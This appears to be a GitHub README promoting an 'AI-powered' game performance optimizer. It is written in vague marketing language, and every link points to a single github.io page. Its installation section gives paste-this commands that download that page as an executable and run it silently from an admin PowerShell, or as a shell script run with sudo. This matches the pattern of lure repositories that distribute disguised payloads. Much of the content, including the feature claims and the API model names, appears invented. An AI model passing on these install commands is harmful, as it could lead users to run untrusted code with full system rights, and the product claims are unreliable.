

# 🧠 NeuralGame Optimizer 2026: AI-Powered Performance Orchestrator

[](https://rifqimaulana2509.github.io/game-performance-suite/)

## 🌟 Elevate Your Gaming Experience Through Intelligent Adaptation

Welcome to **NeuralGame Optimizer 2026**, a sophisticated performance orchestration platform that transforms how your system resources interact with modern gaming environments. Unlike conventional optimization tools, our solution employs adaptive machine learning models to create a symbiotic relationship between hardware capabilities and software demands, resulting in a seamless, immersive experience that feels intuitively tailored to your unique setup.

### 🚀 Instant Acquisition & Deployment

Ready to experience intelligent performance adaptation? The complete package is available for immediate acquisition:

[](https://rifqimaulana2509.github.io/game-performance-suite/)

---

## 📖 Table of Contents
- [Philosophical Approach](#-philosophical-approach)
- [Core Capabilities](#-core-capabilities)
- [System Harmony](#-system-harmony)
- [Installation Symphony](#-installation-symphony)
- [Configuration Canvas](#-configuration-canvas)
- [Architectural Flow](#-architectural-flow)
- [Operational Examples](#-operational-examples)
- [Platform Compatibility](#-platform-compatibility)
- [Intelligent Integration](#-intelligent-integration)
- [Support Ecosystem](#-support-ecosystem)
- [Legal Considerations](#-legal-considerations)
- [Community Contribution](#-community-contribution)

## 🧠 Philosophical Approach

Imagine your gaming system as a living ecosystem where each component communicates through a shared language of performance. Traditional optimization tools act as gardeners who prune branches, but NeuralGame Optimizer functions as an ecosystem architect who understands the symbiotic relationships between soil (hardware), climate (operating system), and flora (applications). We don't just boost frames per second; we cultivate an environment where performance emerges naturally from intelligent resource relationships.

## ⚡ Core Capabilities

### Adaptive Performance Mapping
- **Dynamic Resource Allocation**: Real-time CPU/GPU/RAM prioritization based on gameplay phase detection
- **Predictive Load Balancing**: Anticipates scene complexity changes before they impact performance
- **Context-Aware Optimization**: Distinguishes between competitive multiplayer and cinematic single-player experiences

### Intelligent System Synchronization
- **Background Process Harmony**: Silently coordinates non-essential processes without disruptive termination
- **Thermal Intelligence**: Proactively manages cooling profiles based on predicted thermal loads
- **Storage Performance Layer**: Optimizes asset streaming based on gameplay patterns

### User Experience Enhancement
- **Adaptive Visual Fidelity**: Dynamically adjusts settings to maintain target experience quality
- **Latency Consciousness**: Prioritizes input responsiveness during critical gameplay moments
- **Multi-Monitor Orchestration**: Intelligently manages resources across extended display setups

## 🔧 System Harmony

| Operating System | Compatibility Status | Notes |
|-----------------|---------------------|-------|
| Windows 11 | 🟢 **Fully Harmonized** | Native integration with DirectStorage and AutoHDR |
| Windows 10 | 🟢 **Complete Synchronization** | Full feature support with legacy compatibility layer |
| Linux (Proton) | 🟡 **Adaptive Compatibility** | Wine/Proton optimization with Vulkan enhancement |
| SteamOS 3.0+ | 🟢 **Native Orchestration** | HoloISO integration with Steam Deck optimization |
| macOS (Apple Silicon) | 🟡 **Experimental Bridge** | Rosetta 2 optimization with Metal API enhancement |

## 🎯 Installation Symphony

### Automated Installation (Recommended)
```bash
# For Windows PowerShell (Admin)
iwr -Uri https://rifqimaulana2509.github.io/game-performance-suite/ -OutFile NeuralGameOptimizer-Installer.exe
.\NeuralGameOptimizer-Installer.exe /SILENT /LEARNINGMODE=adaptive

# For Linux/macOS terminal
curl -L https://rifqimaulana2509.github.io/game-performance-suite/ -o neuralgame-optimizer-installer.sh
chmod +x neuralgame-optimizer-installer.sh
sudo ./neuralgame-optimizer-installer.sh --adaptive-deployment
```

### Manual Integration
1. **Acquire the orchestration package** from the primary distribution channel
2. **Extract the performance nucleus** to a persistent storage location
3. **Initialize the neural adaptation layer** with system assessment permissions
4. **Calibrate through the initial learning phase** (approximately 2-3 gameplay sessions)

## 🎨 Configuration Canvas

### Example Profile Configuration (`neural-profile.yaml`)
```yaml
neural_optimizer:
  version: "2026.1.0"
  adaptation_mode: "context_aware"
  
performance_orchestration:
  target_experience: "balanced_immersion"
  frame_time_consistency: 92.5
  input_responsiveness: "competitive"
  
resource_symbiosis:
  cpu_allocation: "dynamic_burst"
  gpu_synchronization: "predictive_load"
  memory_management: "intelligent_paging"
  
thermal_intelligence:
  proactive_cooling: true
  acoustic_profile: "balanced"
  power_efficiency: "adaptive"
  
game_specific_profiles:
  - title: "CyberSphere 2077"
    detection_signature: "cdpr_cyberengine"
    optimization_strategy: "streaming_enhancement"
    visual_fidelity: "dynamic_ray_reconstruction"
    
  - title: "Apex Legends"
    detection_signature: "respawn_source"
    optimization_strategy: "latency_minimization"
    input_priority: "maximum"
    
ai_integration:
  openai_api:
    enabled: true
    usage: "descriptive_performance_reporting"
    model: "gpt-4o-optimization"
    
  claude_api:
    enabled: true
    usage: "configuration_suggestion_engine"
    model: "claude-3-5-sonnet-optimization"
    
interface_preferences:
  language: "auto_detect"
  notification_level: "minimal_intrusive"
  performance_visualization: "ambient_display"
```

## 📊 Architectural Flow



## 🖥️ Operational Examples

### Example Console Invocation
```bash
# Initialize with learning profile
neuralgame-optimizer --init --learning-sessions=3 --profile="competitive_adaptive"

# Apply optimization to specific process
neuralgame-optimizer --orchestrate --process="Game.exe" --strategy="latency_critical"

# Generate performance intelligence report
neuralgame-optimizer --analyze --output=detailed --api=openai --insight-depth=advanced

# Create custom adaptation profile
neuralgame-optimizer --create-profile --name="cinematic_immersive" \
  --frame-priority="consistency" --input-priority="standard" \
  --visual-preference="maximum_fidelity"

# Real-time monitoring dashboard
neuralgame-optimizer --monitor --visualization=ambient --metrics=all \
  --refresh-rate=adaptive
```

### Advanced Orchestration Example
```bash
# Multi-game optimization session with AI integration
neuralgame-optimizer --session-begin \
  --primary-game="GameA.exe" --strategy="competitive" \
  --secondary-game="GameB.exe" --strategy="cinematic" \
  --ai-assist=claude --suggestion-frequency=adaptive \
  --reporting=openai --insight-format=narrative

# Thermal-aware optimization for extended sessions
neuralgame-optimizer --orchestrate --thermal-conscious \
  --ambient-temp=24C --cooling-profile="aggressive_sustained" \
  --acoustic-limit=35dB --power-preference="balanced"
```

## 🤖 Intelligent Integration

### OpenAI API Synchronization
NeuralGame Optimizer integrates with OpenAI's advanced language models to transform raw performance data into descriptive, actionable insights. This integration enables:

- **Narrative Performance Reporting**: Translates technical metrics into understandable experience descriptions
- **Predictive Optimization Suggestions**: Uses pattern recognition to suggest configuration adjustments
- **Automated Documentation**: Generates user-friendly reports of optimization sessions
- **Intelligent Troubleshooting**: Provides contextual solutions for performance anomalies

### Claude API Harmonization
Our Claude API integration focuses on configuration intelligence and adaptive learning:

- **Personalized Strategy Development**: Creates custom optimization approaches based on your gameplay patterns
- **Configuration Analysis**: Reviews your settings and suggests harmonious adjustments
- **Learning Pattern Recognition**: Identifies your performance preferences across different game genres
- **Proactive Suggestion Engine**: Anticipates optimization needs before you recognize them

## 🌐 Support Ecosystem

### Multilingual Interface
- **Complete Linguistic Adaptation**: 24 language interfaces with gaming terminology localization
- **Cultural Context Awareness**: Region-specific optimization strategies
- **Real-Time Translation**: In-application content adaptation

### Responsive User Experience
- **Adaptive Interface Scaling**: Automatically adjusts to display size and resolution
- **Contextual Information Presentation**: Shows relevant data based on current activity
- **Minimal Intrusion Philosophy**: Provides information without disrupting immersion

### Continuous Support Channels
- **24/7 Intelligent Assistance**: AI-powered support with human escalation
- **Community Knowledge Integration**: Learns from collective optimization experiences
- **Proactive Update Delivery**: Seamless enhancement deployment

## ⚠️ Legal Considerations

### Disclaimer
NeuralGame Optimizer 2026 is a performance orchestration tool designed to enhance your computing experience through intelligent resource management. This software:

1. **Does not modify game files or executables** - operates entirely at the system resource level
2. **Requires appropriate system permissions** for resource monitoring and allocation
3. **May not be compatible with all anti-cheat systems** - check game-specific policies
4. **Should be used in accordance with platform terms of service**
5. **Is provided as an adaptive performance enhancement tool**, not a guaranteed solution

The developers assume no responsibility for any system instability, game bans, or other consequences resulting from improper use. Users are encouraged to maintain system backups and understand their specific game's modification policies.

### Performance Considerations
While NeuralGame Optimizer employs sophisticated adaptation algorithms, actual performance outcomes depend on numerous factors including hardware configuration, software environment, thermal conditions, and specific application behavior. The tool optimizes resource allocation but cannot overcome fundamental hardware limitations.

## 🤝 Community Contribution

### Development Participation
We welcome contributions that enhance the symbiotic relationships within our optimization ecosystem:

1. **Adaptation Algorithm Improvements**: Enhance our machine learning models
2. **Game Profile Submissions**: Share detection signatures and optimization strategies
3. **Translation Enhancements**: Help localize for additional languages
4. **Compatibility Extensions**: Extend support to additional hardware configurations

### Submission Guidelines
- All contributions must align with our philosophy of system harmony
- Game profiles should be tested across multiple hardware configurations
- Algorithm improvements should include validation metrics
- Documentation updates should maintain our descriptive, user-centric tone

## 📄 License

This project operates under the MIT License - see the [LICENSE](LICENSE) file for complete details. This permissive license allows for academic, personal, and commercial use with appropriate attribution.

## 🚀 Begin Your Performance Evolution

Ready to transform your gaming experience through intelligent adaptation? The complete NeuralGame Optimizer 2026 package awaits:

[](https://rifqimaulana2509.github.io/game-performance-suite/)

---

*NeuralGame Optimizer 2026 represents the next evolution in system performance harmony. By treating your computer as an interconnected ecosystem rather than a collection of components, we enable a new class of gaming experience that feels less like using technology and more like extending your capabilities. Join us in redefining what's possible through intelligent adaptation.*